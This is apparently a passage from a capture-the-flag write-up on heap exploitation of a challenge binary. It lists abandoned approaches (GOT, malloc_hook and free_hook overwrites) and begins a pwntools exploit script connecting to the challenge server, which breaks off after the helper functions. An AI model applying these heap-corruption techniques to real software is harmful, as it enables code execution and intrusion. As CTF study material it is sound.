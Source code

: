 #### Rabbit Holes 
1. Overwrite GOT entry: Failed as the extra 24 bytes of program metadata would nuke the GOT table, the first entry - 24 is not even mapped so writing their will segfault
2. Overwrite malloc_hook: Heard from a teammate that scanf will call malloc for larger sizes but the one gadget never worked due to the stack not being NULL
3. Overwrite free hook with system: Forgot about one_gadgets for a moment and tried writing b'/bin/sh\0' to a chunk and then freeing that chunk. This is possible but didn't have the time to play around with it

### Full exploit

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./rings_of_saturn_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = exe
index = 0

def malloc(size):
    global index
    p.recvuntil(b"> ")
    p.sendline(b"0")
    p.recvuntil(b"> ")
    p.sendline(str(size).encode('latin'))
    index += 1
    return index



def free(index):
    p.recvuntil(b"> ")
    p.sendline(b"1")
    p.recvuntil(b"> ")
    p.sendline(str(index).encode('latin'))

def dump():
    p.recvuntil(b"> ")
    p.sendline(b"2")
    p.recvuntil(b"\n0. add")
    return p.recvuntil(b"\n0. add")
    # return p.clean()

def write(size, data):
    p.recvuntil(b"> ")
    p.sendline(b"3")
    p.recvuntil(b"> ")
    p.sendline(str(size).encode('latin'))
    p.sendline(data)


gdbscript = '''
set breakpoint pending on
b execve 
c
'''

# p = gdb.debug([exe.path], gdbscript=gdbscript)
p = remote("0.cloud.chals.io",12053)
p.recvuntil(b'lol ')
```